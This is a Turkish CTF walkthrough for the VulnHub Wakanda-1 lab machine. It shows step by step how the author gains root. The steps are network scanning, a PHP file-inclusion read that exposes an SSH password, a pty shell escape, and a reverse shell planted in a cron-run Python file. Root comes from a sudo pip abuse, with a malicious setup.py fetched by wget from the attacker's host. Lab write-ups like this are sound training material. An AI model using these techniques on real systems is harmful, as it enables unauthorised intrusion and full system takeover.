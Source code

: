 ## Wakanda-1-YolHaritasi
Çözdüğüm ctf'leri unutmamak amacıyla buraya adımlar şeklinde not alıyorum. Bu ctf'i [*vulnhubdan*](https://www.vulnhub.com/entry/wakanda-1,251/) bilgisayarınıza indirip virtualbox'ınıza kurabilirsiniz. Bu ctf'de elde ettiğimiz önemli bilgileri not.txt dosyasına kaydedeceğiz. Virtualbox'a kurduktan sonra makineyi başlatarak ctf'i çözmeye başlayabiliriz.
### *Adım 1:*
İlk olarak tüm ctf'lerde olduğu gibi zafiyetli makinenin açık portlarına bakarak işe başlamayı düşünebiliriz. Lakin nmap taraması yapmak için bir ip adresine ihtiyacımız var. Zafiyetli makine ile aynı ağda olduğumuz için `netdiscover -r 10.0.2.0/24` çalıştırarak ağımızdaki ip'leri aşağıdaki gibi elde edebiliriz.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/netdiscover.png)

Eğer bağlantı arayüzünüz eth0 değilde wlan0 ise netdiscover komutunun aralığını (range) ona göre ayarlamanız gerekir.
Zafiyetli makinenin ip'sini yukarıdaki gibi elde ettikten sonra `nmap -v -sS -A -T4 <Hedef IP>` komutunu çalıştrarak açık portları görüntüleyebiliriz.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/nmap.png)

Açık portlara baktığımızda ilk dikkatimizi çeken şey 80 portu olyor. Bir sonraki adımda bu websiteyi mutlaka ziyaret etmemiz gerekir. Burada 3333 portunda ssh açık olduğunu görebiliyoruz. Eğer 80 portunda bir şey çıkmazsa makineye ssh kullanarak varsayılan şifre ve kullanıcılar bağlanmaya çalışabiliriz. 111 portunda da başka bir hizmetin açık olduğunu görüyoruz ama bunu araştırmadan önce 2. adıma geçelim ve web zafiyeti olup olmadığına bakalım.
### *Adım 2:*
Siteye girdiğimizde bizi basit bir ekran karşılıyor. Bu ekranda dikkatimizi çeken ilk şey en altta bulunan mamadou kullanıcı ismi oluyor. Bu isme muhtemelen ssh bağlantısı sırasında ihtiyacımız olacaktır. O yüzden not dosyamıza bunu not ediyoruz.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/username.png)

Bu site için gobuster komutunu ve dirb'ü ayrı ayrı çalıştırabiliriz nitekim ben çalıştırdım ve kayda değer bir sonuç alamadım. Belki sayfa kaynağında bir şey buluruz 
ümidiyle bakıyoruz. HTML dökümanını incelediğimde bir yorum satırı dikkatimi çekti burada bir link yönlendirmesi bulunuyor:

`<!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->`

Burada ?lang=fr kısmını site linkinin sonuna eklediğimizde sitenin fransızca olduğunu görüyoruz. Site adres kısmında daha önce yazılmış bir php dosyası kulanıldığı çıkarımını yapabiliriz. Bu çıkarıma göre linkin ?lang= sonraki kısmından sistem dosyalarına ulaşma denemeleri yapıyoruz fakat sonuç alamıyoruz. Bu denemeleri nasıl yapacağımızı ve denemeler sonuç vermezse neler yapabileceğimizigörmek için * [bu linkten](https://book.hacktricks.xyz/pentesting-web/file-inclusion) *yararlanabiliriz.
Bu sitede yaptığımız okuma sonucu farklı bir index.php dosyasına erişmek ve php filter'ı atlatmak için ?lang= sonrasına sitede yer alan base64 ile ilgili bir link ekliyoruz:

`php://filter/convert.base64-encode/resource=index` 

Sayfa kaynağına giderek base64 ile şifrelenmiş metni alıyoruz ve bir [online decoder](https://www.base64decode.org/) yardımıyla metnideşifre ediyoruz. Ulaştığımız metinde bir şifre kısmı görüyoruz. Elde ettiğimiz şifreyi not dosyamıza ekliyoruz. Artık bir kullanıcı ismine ve şifreye sahibiz. Bununla beraber ssh portu da açık olduğunu biliyoruz. Kullanıcı adımız mamadou şifremiz 'Niamey4Ever227!!!'. Bağlantı başarılı!!
### * Adım 3: *
ssh ile başarıyla bağlandık ama karşımıza çıkan shell içerisinde linux komutlarını çalıştırdığımızda hata aldığımızı görüyoruz. Hatayı dikkatle incelediğimizde ve farklı denemeler yaptığımızda bunun python hataları olduğunu anlayabiliyoruz.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/ssh.png)

Burada python çalıştırabildiğimize göre python ile kabuk oluşturabiliriz. Kabuk için 

`import pty; pty.spawn("/bin/bash")`

komutunu çalıştırıyoruz. Artık başta çalıştırmayı denediğimiz tüm komutları çalıştırabiliriz. flag1.txt'yi aşağıdaki gibi elde ediyoruz.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/flag.png)

Bu adımda hemen flag2.txt dosyasının nerede olduğunu öğrnelim:

`locate flag2.txt`

Bu komutu çalıştırdığımızda `/home/devops/flag2.txt` sonucunu elde ediyoruz. cat komutu ile bu dosyayı okumaya çalıştığımızda buna iznimiz olmadığı bilgisini alıyoruz.
Yani bu dosyayı okumak için devops kullanıcısı olmamız gerekiyor. Devops kullanıcısı olmak için çeşitli araçlarla zafiyet araması yapmadn önce * find * komutu ile devops kullanıcısının hangi dosyalarına erişebildiğimize bakmak için şu komutu çalıştıralım.

`find / -username devops`

Bu komutu çalıştırdığımızda uzun bir liste elde ediyoruz ama listenin en başı dikkatimizi çekiyor.

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/find.png)

Burada bir python dosyası ve test isimli bir metin dosyası olduğunu görüyoruz. Bunları cat ile okuyoruz:

Python dosyası
`open('/tmp/test','w').write('test')`

Test dosyası 
`test`

Bu iki dosyaya bakarak python dosyasının daha önce çalıştırıldığını anlayabiliriz. Bunu bir cron dosyası yardımıyla belirli aralıklarla yaptığı da muhtemel olan diğer çıkarım. Bir sonraki adımda python dosyasını kullanacağız.
### *Adım 4:*
Bu adımda python ile reverse shell oluşturacağız. ls -la ile baktığımızda python dosyasına yazma iznine sahip olduğumuzu görebiliriz. [Reverse shell için](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) sitesinde yer alan python reverse shell kodlarını kullanabiliriz. Bu sitede komut satırı için hazırlanan komutu python debug işlmine uygun hale getirerek dosyaya yazalım. reverse shellde ip kısmına kalimizin ip'sini yazarak dosyayı kaydedelim. Başka bir terminalde netcat çalıştıralım:

`nc -nvlp 1234`

Bir shell elde ettik daha önceden dizini bildiğimiz falg2.txt'yi okuyalım:

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/flag2.png)

Şimdi sırada root.txt dosyasını bulmak var.
### *Adım 5:*
root.txt dosyasına erişmek için yetki yükseltmesi yapmamız gerektiğini biliyoruz. Yetki yükseltmesi için neler yapabileceğimizi düşünelim. Ama ondan önce yetki yükseltmeden yani şifre girmeden neler yapabileceğimize bakalım. Bunun için `sudo -l` komutunu çalıştırıyoruz. İlginç bir drurumla karşılaşıyoruz: 

`User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip`
    
İnternette yaptığımız kısa bir aramada [bir github reposu buluyoruz](https://github.com/0x00-0x00/FakePip). Burada yine bir reverse shell bulduğumuzu söyleyebiliriz.
Bunu ssh ile bağlandığımız makineye nasıl indirebileceğimiz bulmalıyız. Makinede git komutlarının çalışmadığını deneyerek anlayabiliriz. onun dışında wget komutunun çalışmasında bir sıkıntı olmadığını görüyoruz. Ama inen dosyanın .git uzantılı olması da bizi çıkmaza sokuyor. Bu dosyayı kendi sunucumuz üzerinden wget komutu ile makineye yollamak en doğru çözüm olacağını düşünüyoruz. Bu yüzden ilk olarak repo'yu kendi kalimize klonluyoruz. setup.py dosyası içerisindeki localhost yerine kendi ip adresimizi yazıyoruz dosyayı kaydederek ssh ile atılmaya hazır duruma geliyoruz. (port numarasını da unutmuyoruz 13372) Sonrasında dosyayı var/www/html içerisine atıyoruz `cp setup.py /var/www/html` ve apache sunucumuzu başlatıyoruz `service apache2 start'. Şimdi devops olarak bulunduğumuz makinede aşağıdaki komutu çalıştırabiliriz.

`wget http://10.0.2.14/setup.py`

setup.py dosyamız makineye başarıyla indi buradan sonra yetki yükseltmek çocuk oyuncağı. İlk ola 13372 portunu daha önce yaptığımız gibi dinlemeya başlayacağız. Sonra pip kullanarak setup.py dosyasını çalıştıracağız.

`nc -nvlp 13372`

`sudo /usr/bin/pip install . --upgrade --force-reinstall`

![](https://github.com/hamza37yavuz/Wakanda-1-YolHaritasi/blob/main/root.png)

Okuduğunuz için Teşekkürler :)
